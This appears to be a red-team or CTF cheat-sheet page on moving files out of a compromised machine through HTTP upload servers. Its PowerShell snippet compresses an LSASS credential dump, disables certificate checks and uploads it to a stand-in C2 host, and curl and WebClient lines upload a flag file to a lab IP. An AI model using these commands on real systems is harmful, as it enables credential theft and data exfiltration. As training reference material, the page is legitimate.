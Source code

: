 # Using Curl to POST data to SimpleHTTPServerWithUpload.py


## ProjectDiscovery [SimpleHTTPServer](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
* Simple command for running
    ```bash
    simplehttpserver -https -upload
    simplehttpserver -https -upload -listen 0.0.0.0:443
    ```
* Upload a file via [curl](../Useful_Commands/Linux.html#upload-files-via-curl)(Linux) or [powershell](../Useful_Commands/Windows.html#download-uploading-files)(Windows). Try to [compress](../Network/Data_Exfiltration/Windows-Archiving_and_Compression.md#powershell) first
    * Windows
       * Powershell (Possible to convert to one-liner and execute via *cmd*>`powershell "<b;e;l;o;w;>"`)
          ```powershell
          Compress-Archive -LiteralPath C:\Windows\temp\lsass.dmp -DestinationPath C:\Windows\temp\lsass.zip
          [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
          
          $uri='https://c2.attacker.com/lsass.zip'
          $uploadPath = 'C:\Windows\temp\lsass.zip'
          Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials" 
          ```


---
## Python3 SimpleHTTPServer
* Caveats
   * Insecure communications (HTTP)
       * Choose a server that accepts POST request and makes use of HTTPS
* Download
   * [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan
* Modify listening port
   * If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
       ```python
       def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
       server_address = ('', 1337)
       httpd = ServerClass(server_address,HandlerClass)
       httpd.serve_forever()
       ```
* From client-side
* Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)
   * Linux
       ```bash
       curl -F "file=@flag.zip" http://10.1.2.3:8000/
       ```
   * Powershell
       ```powershell
       $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
       ```
